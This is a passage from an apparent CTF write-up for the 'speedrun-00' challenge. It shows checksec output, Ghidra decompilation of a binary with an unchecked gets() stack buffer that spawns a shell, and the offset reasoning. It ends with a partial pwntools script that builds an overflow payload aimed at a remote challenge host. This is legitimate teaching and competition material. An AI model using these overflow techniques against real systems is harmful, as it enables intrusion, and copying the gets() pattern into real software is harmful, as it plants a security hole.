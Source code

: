 Above should be ordered by difficulty based on solved, however I assume some
were stuck on harder problems and did not look at some of the easier problems
released later in the CTF--assume a combination of difficulty and release
time.

## speedrun-00

### Checksec

```  
   Arch:     amd64-64-little  
   RELRO:    Full RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      PIE enabled  
```

No stack canary, assume BOF.

### Decompile with Ghidra

```c  
void main(void)  
{  
 char local_48 [56];  
 int local_10;  
 int local_c;  
  
 puts("This is the only one");  
 gets(local_48);  
 if (local_c == 0xfacade) {  
   system("/bin/sh");  
 }  
 if (local_10 == 0xfacade) {  
   system("/bin/sh");  
 }  
 return;  
}  
```

A common theme throughout this write-up will be using the Ghidra variable
names as stack frame offsets.  E.g., `local_48` is `0x48` bytes offset from
the end of the stack frame (also where the return address is).

To target `local_c`, just write (`0x48 - 0xc`) bytes of garbage and then
`0xfacade` to overwrite `local_c`'s value.  Or, do the same for `local_10`.

It's also important to note the the binary is 64-bit and that `int` is 32-bit.

### Exploit

```python  
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_00')

if not args.REMOTE:  
	p = process(binary.path)  
else:  
	p = remote('chal.2020.sunshinectf.org', 30000)

payload  = b''  
payload += (0x48 - 0xc) * b'A'  
payload += p32(0xfacade)
```